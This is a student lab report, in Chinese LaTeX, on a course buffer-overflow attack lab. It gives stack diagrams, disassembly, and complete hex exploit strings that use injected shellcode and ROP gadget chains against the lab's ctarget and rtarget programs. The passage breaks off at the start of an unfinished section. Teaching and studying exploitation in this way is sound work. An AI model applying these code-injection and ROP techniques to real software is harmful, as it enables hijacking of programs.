% !TEX program = xelatex

\documentclass[12pt,a4paper]{article}
\usepackage[UTF8]{ctex}
\usepackage{float}
\usepackage{amsmath}
\usepackage{enumerate}
\usepackage{booktabs}
\usepackage{graphicx}
\usepackage{longtable}
\usepackage{subcaption}

% for plotting 
\usepackage{caption}
\usepackage{pgfplots}

% for pseudo code 
\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

% for code 
\usepackage{listings}
\usepackage{xcolor}
\usepackage{fontspec}
\newfontfamily\consolas{Consolas}
\definecolor{darkgreen}{rgb}{0,0.6,0}

% for reference 
\usepackage{hyperref}
\usepackage{cleveref}

% Microsoft Word A4 paper default layout 
\usepackage[a4paper, left=3.18cm, right=3.18cm, top=2.54cm, bottom=2.54cm]{geometry}

\lstset {
    basicstyle = \footnotesize\consolas, % basic font setting
    breaklines = true, 
    frame = single,     % can be single, shadowbox, bottomline
    keywordstyle = \color{blue}, 
    commentstyle = \color{darkgreen},
    stringstyle = \color{red},
}

\lstdefinelanguage[x64]{Assembler}[x86masm]{Assembler} {     % add a "x64" dialect of Assembler based on the "x86masm" dialect
    % with these extra keywords:
    morekeywords=[2]{CDQE, CQO, CMPSQ, CMPXCHG16B, JRCXZ, LODSQ, MOVSXD,
                POPFQ, PUSHFQ, SCASQ, STOSQ, IRETQ, RDTSCP, SWAPGS,
                rax, rdx, rcx, rbx, rsi, rdi, rsp, rbp,
                r8, r8d, r8w, r8b, r9, r9d, r9w, r9b,
                r10, r10d, r10w, r10b, r11, r11d, r11w, r11b,
                r12, r12d, r12w, r12b, r13, r13d, r13w, r13b,
                r14, r14d, r14w, r14b, r15, r15d, r15w, r15b},
    % and more comment mark
    morecomment=[l]{\#},
}

\title{汇编语言程序设计\\缓冲区溢出攻击实验报告}
\author{2017011620 计73 李家昊}
\date{\today}

\begin{document}

\captionsetup[figure]{labelfont={bf}, name={Figure}}
\captionsetup[table]{labelfont={bf}, name={Table}}

\maketitle

\section{实验目的}
\begin{enumerate}[1.]
    \item 了解攻击者利用缓冲区溢出安全漏洞进行攻击的不同方式。
    \item 了解如何编写更安全的程序,以及编译器及操作系统提供的功能,使程序更加鲁棒。
    \item 理解x86-64汇编的程序栈机制及参数传递机制。
    \item 理解x86-64指令的编码方式。
    \item 掌握调试工具的使用方法,如 \verb|gdb| 和 \verb|objdump|。
\end{enumerate}

\section{实验原理}

程序正常运行过程中,当父函数调用子函数时,会将调用指令的下一条指令地址压入栈内,作为返回地址。子函数运行结束后,根据返回地址返回到父函数,程序栈结构如 \Cref{figure:normal} 所示。

\begin{figure}[H]
    \hspace*{70pt}
    
\includegraphics[width=0.7\textwidth]{./fig/normal.png}
    \caption{正常运行时的堆栈图}
    \label{figure:normal}
\end{figure}

当子函数在栈上开辟了缓冲区,且没有判断输入字符串的长度时,若输入字符串过长,将导致字符串超出缓冲区范围,覆盖函数的返回地址。一般情况下,返回地址会指向非法内存,仅仅使程序崩溃,而不会带来更大的危害;但如果攻击者精心设计,则可以令超出缓冲区的数据作为代码去执行,掌握程序的控制权。程序栈结构如 \Cref{figure:ci} 所示。

\begin{figure}[H]
    \hspace*{55pt}
    
\includegraphics[width=0.75\textwidth]{./fig/ci.png}
    \caption{Code Injection, CI}
    \label{figure:ci}
\end{figure}

当编译器开启栈地址随机化,实行栈不可执行机制时,在栈上注入代码就无能为力了。此时可以通过在程序中寻找有用的代码块,将返回地址依次定位到这些代码块中,完成攻击。程序栈结构如 \Cref{figure:rop} 所示。

\begin{figure}[H]

    
\includegraphics[width=\textwidth]{./fig/rop.png}
    \caption{Return-Oriented Programming, ROP}
    \label{figure:rop}
\end{figure}

\section{实验过程}

\subsection{实验1}
\label{subsection:exp_1}

实验1-3要求利用代码注入(Code Injection, CI)技术,在 \verb|ctarget| 程序上完成攻击任务。

实验1要求设计一个输入字符串,使 \verb|getbuf| 函数执行 \verb|touch1| 函数,而不返回到 \verb|test| 函数。

首先查看缓冲区大小,用 \verb|objdump| 将 \verb|ctarget| 反汇编,得到 \verb|getbuf|函数的汇编指令如下:

\begin{lstlisting}[language={[x64]Assembler}]
000000000040189b <getbuf>:
  40189b:	48 83 ec 38          	sub    $0x38,%rsp
  40189f:	48 89 e7             	mov    %rsp,%rdi
  4018a2:	e8 7e 02 00 00       	callq  401b25 <Gets>
  4018a7:	b8 01 00 00 00       	mov    $0x1,%eax
  4018ac:	48 83 c4 38          	add    $0x38,%rsp
  4018b0:	c3                   	retq
\end{lstlisting}

可见, \verb|getbuf| 函数开辟了 0x38 个字节的栈空间,并将栈顶指针 \%rsp 作为第一个参数传入 \verb|gets| 函数,即可推断出缓冲区大小为 0x38=56,因此,需要56个字符(非换行符0x0a)来填充缓冲区,本实验中统一采用 0x00 填充缓冲区,在56个 0x00 后紧接着输入 \verb|touch1| 的返回地址,即可将 \verb|getbuf| 的返回地址覆盖为 \verb|touch1| 函数的入口地址。堆栈图如 \Cref{figure:exp_1} 所示。

\begin{figure}[H]
    \hspace*{85pt}
    
\includegraphics[width=0.7\textwidth]{./fig/1.png}
    \caption{实验1堆栈图}
    \label{figure:exp_1}
\end{figure}

接下来在反汇编文件中找到 \verb|touch1|,如下所示

\begin{lstlisting}
00000000004018b1 <touch1>:
\end{lstlisting}

可得到 \verb|touch1| 的地址为 0x00000000004018b1。考虑到小端字节序,整数 0x00000000004018b1 的存储方式应该为 b1 18 40 00 00 00 00 00,因此最终的结果为:

\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b1 18 40 00 00 00 00 00
\end{lstlisting}

\subsection{实验2}

实验2要求设计一个输入字符串,使 \verb|getbuf| 函数执行 \verb|touch2| 函数,并将 cookie 的整数值作为第一个参数传入 \verb|touch2| 函数中。

\subsubsection{解法1}

与实验1不同,这里无法直接将返回地址覆盖为 \verb|touch2| 的地址,否则会引发 Misfire,无法通过测试。显然,这里需要注入传参代码,成功传递参数后,再返回到 \verb|touch2|。于是可将程序的返回地址修改为缓冲区的起始地址,在缓冲区起始地址处注入汇编代码,将 cookie 传给 \%rdi,作为第一个参数,然后返回到 \verb|touch2| 函数中。堆栈图如 \Cref{figure:exp_2} 所示。

\begin{figure}[H]
    \hspace*{85pt}
    
\includegraphics[width=0.7\textwidth]{./fig/2.png}
    \caption{实验2解法1堆栈图}
    \label{figure:exp_2}
\end{figure}

通过运行程序,得知cookie为0x3761ba80,编写需要注入的汇编代码如下:

\begin{lstlisting}[language={[x64]Assembler}]
mov     $0x3761ba80, %edi
ret
\end{lstlisting}

利用 \verb|as| 命令编译汇编代码,并使用 \verb|objdump| 反汇编得到:

\begin{lstlisting}[language={[x64]Assembler}]
0:   bf 80 ba 61 37          mov    $0x3761ba80,%edi
5:   c3                      retq
\end{lstlisting}

取出机器指令,用 0x00 填充剩下的缓冲区。通过 \verb|gdb| 调试,得到缓冲区的起始地址为 0x000000005564e078,利用实验1(\Cref{subsection:exp_1})中的技巧,将其作为 \verb|getbuf| 的返回地址,最后,通过查看反汇编结果,得到 \verb|touch2| 入口地址为 0x00000000004018dd,将其紧接缓冲区起始地址写在栈上。得到最终的输入字符串:

\begin{lstlisting}
bf 80 ba 61 37
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00

78 e0 64 55 00 00 00 00
dd 18 40 00 00 00 00 00      
\end{lstlisting}

\subsubsection{解法2}
\label{subsubsection:exp_2_2}

此外,在注入的代码中,还可通过 \verb|pushq| 指令将 \verb|touch2| 的入口地址压入栈,然后返回,此时将直接返回到 \verb|touch2|。堆栈图如 \Cref{figure:exp_2_2} 所示。

\begin{figure}[H]
    \hspace*{85pt}
    
\includegraphics[width=0.7\textwidth]{./fig/2_2.png}
    \caption{实验2解法2堆栈图}
    \label{figure:exp_2_2}
\end{figure}

最终结果为:

\begin{lstlisting}
bf 80 ba 61 37
68 dd 18 40 00
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00

78 e0 64 55 00 00 00 00
\end{lstlisting}

\subsection{实验3} 

实验3要求设计一个输入字符串,使 \verb|getbuf| 返回 \verb|touch3|,并将 cookie 的十六进制表示的字符串作为第一个参数传入 \verb|touch3|。

\subsubsection{解法1}

此实验的主要困难在于 \verb|touch3| 中的 \verb|hexmatch| 函数会开辟一段新的栈空间,并进行写入,如果将 cookie 字符串存储在栈上,则很有可能被 \verb|hexmatch| 覆盖。

由于函数总是在返回地址下方开辟栈空间,因此,为了避免 cookie 字符串被 \verb|hexmatch| 覆盖,应当将 cookie 字符串保存在返回地址上方。这样一来,在栈空间的读写操作就不会干涉到 cookie 字符串的存储。此外,考虑到 \verb|getbuf| 函数不需要正常返回,因此,即使在返回地址上方写入数据,破坏了 \verb|getbuf| 调用者的栈,也是安全的,不会产生异常。堆栈图如 \Cref{figure:exp_3} 所示

\begin{figure}[H]
    \hspace*{85pt}
    
\includegraphics[width=0.7\textwidth]{./fig/3.png}
    \caption{实验3解法1堆栈图}
    \label{figure:exp_3}
\end{figure}

通过 \verb|gdb| 调试工具,找到 \verb|getbuf| 将要返回时栈顶指针 \%rsp 指向的地址为 0x000000005564e0b0,将其向上偏移16个字节,即为字符串的地址,编写传递参数的汇编代码如下:

\begin{lstlisting}[language={[x64]Assembler}]
movq    $0x5564e0c0, %rdi
ret
\end{lstlisting}

编译后反汇编得到

\begin{lstlisting}[language={[x64]Assembler}]
0:   48 c7 c7 c0 e0 64 55    mov    $0x5564e0c0,%rdi
7:   c3                      retq
\end{lstlisting}

利用 \verb|hexdump| 命令查看cookie的字符串存储形式为 33 37 36 31 62 61 38 30,需要注意字符串末尾要添加 \verb|'\0'|。得到最终结果如下:

\begin{lstlisting}
48 c7 c7 c0 e0 64 55
c3

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

78 e0 64 55 00 00 00 00
ee 19 40 00 00 00 00 00
33 37 36 31 62 61 38 30
00 00 00 00    
\end{lstlisting}

\subsubsection{解法2}

与实验2解法2(\Cref{subsubsection:exp_2_2})类似,此处也可利用 \verb|pushq| 命令将 \verb|touch3| 入口地址压入栈内,然后返回。堆栈图如 \Cref{figure:exp_3_2} 所示。

\begin{figure}[H]
    \hspace*{85pt}
    
\includegraphics[width=0.7\textwidth]{./fig/3_2.png}
    \caption{实验3解法2堆栈图}
    \label{figure:exp_3_2}
\end{figure}

最终结果为

\begin{lstlisting}
48 c7 c7 c0 e0 64 55
68 ee 19 40 00
c3

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00

78 e0 64 55 00 00 00 00
00 00 00 00 00 00 00 00
33 37 36 31 62 61 38 30
00 00 00 00
\end{lstlisting}

\subsection{实验4}
\label{section:exp_4}

实验4-5要求利用返回导向编程(Return-Oriented Programming, ROP)技术,在 \verb|rtarget| 程序上完成攻击任务。 \verb|rtarget| 开启了栈地址随机化,实行栈不可执行机制,因此相较于 \verb|ctarget| 更加困难。

实验4的要求与实验2一致。

由于无法注入代码,因此只能将cookie存在栈上,需要利用 \verb|popq| 指令将cookie保存到一个寄存器中,然后利用 \verb|movq| 指令将cookie的值拷贝到 \%rdi 中,最后返回到 \verb|touch2|。

通过在 \verb|start_farm| 和 \verb|end_farm| 之间搜索所有popq对应的机器指令,结合说明文档提供的 \verb|nop| 指令表格,发现仅有58是可利用的指令,即 \verb|popq %rax|。如此而来,目标就变得更加明确,只需要找到一条 \verb|movq %rax, %rdi| 指令即可,查表得对应的机器指令为 \verb|48 89 c7|,在 \verb|farm| 中找到此指令,按堆栈图 \Cref{figure:exp_4} 所示完成攻击任务。

\begin{figure}[H]
    
\includegraphics[width=\textwidth]{./fig/4.png}
    \caption{实验4堆栈图}
    \label{figure:exp_4}
\end{figure}

最终结果为

\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

95 1a 40 00 00 00 00 00
80 ba 61 37 00 00 00 00
a1 1a 40 00 00 00 00 00
dd 18 40 00 00 00 00 00    
\end{lstlisting}

\subsection{实验5}

实验5的要求与实验3一致。

解决思路如下:利用 \verb|hexdump| 命令查看cookie的字符串存储形式,由于 \verb|hexmatch| 会开辟栈空间,因此字符串只能存储在返回地址上方,由于 \verb|rtarget| 每次运行时栈地址随机,因此无法直接将字符串的绝对地址硬编码,而需要通过栈顶指针 \%rsp 和偏移量计算出字符串的地址。

于是在 \verb|farm| 中寻找有关算术运算的代码块,找到 \verb|add_xy| 这个函数,可以用作地址运算。该函数接受两个参数,因此,需要设法将参数传到 \%rdi 和 \%rsi 中。

再次在 \verb|farm| 中搜索 \verb|mov| 指令相关的代码块,可用的 \verb|mov| 指令使数据流在寄存器上组成一个有向无环图,如 \Cref{figure:mov_dag} 所示。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\textwidth]{./fig/mov_dag.png}
    \caption{寄存器上的数据流图}
    \label{figure:mov_dag}
\end{figure}

由上图可知,若想通过 \%rsp 和偏移量计算出字符串的地址,首先应当通过 \%rsp -> \%rax -> \%rdi 这条路径将 \%rsp 转移到 \%rdi 上,然后通过 实验4(\Cref{section:exp_4}) 提到的 \verb|popq %rax| 指令,将栈上存储的偏移量保存在 \%rax 中,由于偏移量不会太大,高32位必为0,因此可以通过 \%eax -> \%edx -> \%ecx -> \%esi 这条路径将 \%eax 转移到 \%esi 中,然后将返回地址指向 \verb|add_xy| 函数,即可在 \%rax 中获取到字符串的地址,再次利用 \%rax -> \%rdi,将字符串地址作为第一个参数,传入 \verb|touch3|,即可完成攻击任务。对应的堆栈图如 \Cref{figure:exp_5} 所示。

\begin{figure}[H]
    \hspace{85pt}
    
\includegraphics[width=0.7\textwidth]{./fig/5.png}
    \caption{实验5堆栈图}
    \label{figure:exp_5}
\end{figure}

最终结果为

\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

e1 1a 40 00 00 00 00 00
b5 1a 40 00 00 00 00 00
95 1a 40 00 00 00 00 00
48 00 00 00 00 00 00 00
37 1b 40 00 00 00 00 00
0d 1b 40 00 00 00 00 00
96 1b 40 00 00 00 00 00
c7 1a 40 00 00 00 00 00
b5 1a 40 00 00 00 00 00
ee 19 40 00 00 00 00 00
33 37 36 31 62 61 38 30
00 00 00 00 00 00 00 00
\end{lstlisting}

\section{遇到的困难}

\begin{enumerate}[1.]
